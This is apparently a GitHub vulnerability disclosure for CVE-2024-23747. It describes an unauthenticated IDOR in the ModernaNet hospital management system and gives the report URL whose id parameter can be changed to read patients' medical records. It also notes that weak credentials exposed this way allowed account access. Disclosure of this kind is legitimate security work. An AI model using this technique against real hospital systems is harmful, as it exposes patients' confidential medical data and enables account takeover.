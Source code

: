 # CVE-2024-23747
The Moderna Sistemas ModernaNet Hospital Management System 2024 is susceptible to an Insecure Direct Object Reference (IDOR) vulnerability. 

## PoC

This vulnerability resides in the system's handling of user data access through a /Modernanet/LAUDO/LAU0000100/Laudo?id= URL. Bymanipulating this id parameter, an attacker can gain access to sensitive medical information.

http://IP/Modernanet/LAUDO/LAU0000100/Laudo?id=NUMBER

![Captura de tela 2024-01-26 061042](https://github.com/louiselalanne/CVE-2024-23747/assets/100588945/7f4cbd62-3ba9-453b-88a2-b7c2f1deb2fd)

You don't need to be logged in to see the results.

## Bonus
It was possible to access this hospital's user account because of weak credentials that can be obtained through this IDOR.

![image](https://github.com/louiselalanne/CVE-2024-23747/assets/100588945/b33d8140-8ae3-4a4f-b2db-546b5e22aea1)

## Reference
https://modernasistemas.com.br/sitems/
